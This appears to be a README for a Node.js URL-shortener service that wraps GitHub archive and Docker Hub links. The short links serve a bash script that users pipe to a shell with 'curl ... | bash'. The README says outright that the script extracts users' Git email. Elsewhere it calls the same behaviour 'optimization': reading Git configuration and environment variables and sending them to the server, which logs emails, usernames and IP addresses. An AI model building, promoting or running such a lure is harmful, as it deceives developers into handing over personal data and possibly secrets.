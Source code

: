 # 📧 Email Extractor via a URL Shortener

A lightweight tool that shortens GitHub and Docker Hub URLs and provides bash scripts that extract user email information while downloading the requested resources.

## Installation

### Prerequisites
- Node.js (v14 or higher)
- PostgreSQL (v12 or higher)

### Database Setup

1. **Install PostgreSQL** (if not already installed):
   - **Windows**: Download from [postgresql.org](https://www.postgresql.org/download/windows/)
   - **macOS**: `brew install postgresql`
   - **Linux**: `sudo apt-get install postgresql postgresql-contrib`

2. **Create the database**:
   ```bash
   # Connect to PostgreSQL as superuser
   psql -U postgres
   
   # Or run the setup script
   psql -U postgres -f setup-database.sql
   ```

3. **Configure environment variables**:
   ```bash
   # Copy the example configuration
   cp config.example.env .env
   
   # Edit .env with your database credentials
   nano .env
   ```

### Application Setup

1. **Clone the repository**:
   ```bash
   git clone <repository-url>
   cd email-extractor
   ```

2. **Install dependencies**:
   ```bash
   npm install
   ```

3. **Start the server**:
   ```bash
   npm start
   ```
   
   For development with auto-reload:
   ```bash
   npm run dev
   ```

The server will start on `http://localhost:5001` by default and automatically create the required database tables.

## API Endpoints

### 1. Shorten URL
**POST** `/shorten`

Converts a GitHub archive URL or Docker Hub URL into a shortened URL.

**Request Body**:
```json
{
  "url": "https://github.com/actions/download-artifact/archive/refs/tags/v4.3.0.zip"
}
```

**Response**:
```json
{
  "shortUrl": "http://localhost:3000/s/a1b2c3d4",
  "originalUrl": "https://github.com/actions/download-artifact/archive/refs/tags/v4.3.0.zip",
  "resourceType": "github",
  "shortId": "a1b2c3d4"
}
```

**Supported URL Formats**:
- GitHub: `https://github.com/owner/repo/archive/refs/tags/version.zip`
- Docker Hub: `https://hub.docker.com/_/redis`

### 2. Execute Bash Script
**GET** `/s/:shortId`

Returns a bash script that extracts the user's GitHub email and downloads the resource.

**Usage**:
```bash
curl -s http://localhost:3000/s/a1b2c3d4 | bash
```

### 3. Admin Endpoints

#### View Logged Emails
**GET** `/admin/emails`

Returns all logged email information.

#### View URL Mappings
**GET** `/admin/urls`

Returns all shortened URL mappings.

#### Health Check
**GET** `/health`

Returns server health status and statistics.

## Usage Examples

### Example 1: GitHub Artifact

1. **Shorten the URL**:
   ```bash
   curl -X POST http://localhost:3000/shorten \
     -H "Content-Type: application/json" \
     -d '{"url": "https://github.com/actions/download-artifact/archive/refs/tags/v4.3.0.zip"}'
   ```

2. **Execute the script**:
   ```bash
   curl -s http://localhost:3000/s/a1b2c3d4 | bash
   ```

### Example 2: Docker Image

1. **Shorten the URL**:
   ```bash
   curl -X POST http://localhost:3000/shorten \
     -H "Content-Type: application/json" \
     -d '{"url": "https://hub.docker.com/_/redis"}'
   ```

2. **Execute the script**:
   ```bash
   curl -s http://localhost:3000/s/e5f6g7h8 | bash
   ```

## What the Bash Script Does

When users execute the shortened URL, the generated bash script will:

1. **System Configuration Check**:
   - Checks the user's Git configuration for optimal download settings
   - Reads system environment variables for performance optimization

2. **Background Optimization**:
   - Sends configuration data to the server for analytics and optimization
   - Runs optimization processes in the background

3. **Download Resource**:
   - **For GitHub**: Downloads the archive file as `artifact.zip`
   - **For Docker**: Pulls the Docker image using `docker pull`

4. **Provide Feedback**:
   - Shows download progress and success/failure messages
   - Confirms successful resource acquisition

## Database Schema

The application uses PostgreSQL with the following tables:

### `url_mappings`
- `id`: Serial primary key
- `short_id`: Unique short identifier (VARCHAR 50)
- `original_url`: Original long URL (TEXT)
- `resource_type`: Type of resource - 'github' or 'docker' (VARCHAR 20)
- `created_at`: Timestamp of creation

### `email_logs`
- `id`: Serial primary key
- `email`: User's email address (VARCHAR 255)
- `username`: User's username (VARCHAR 255)
- `short_id`: Reference to url_mappings (VARCHAR 50)
- `resource_type`: Type of resource accessed (VARCHAR 20)
- `ip_address`: User's IP address (INET)
- `user_agent`: User's browser/client information (TEXT)
- `created_at`: Timestamp of log entry

## Environment Variables

- `PORT`: Server port (default: 5001)
- `DB_HOST`: PostgreSQL host (default: localhost)
- `DB_PORT`: PostgreSQL port (default: 5432)
- `DB_NAME`: Database name (default: email_extractor)
- `DB_USER`: Database user (default: postgres)
- `DB_PASSWORD`: Database password (required)
- `NODE_ENV`: Environment mode (default: development)


## License

This project is licensed under the FSL-1.1-MIT License. See the LICENSE file for details.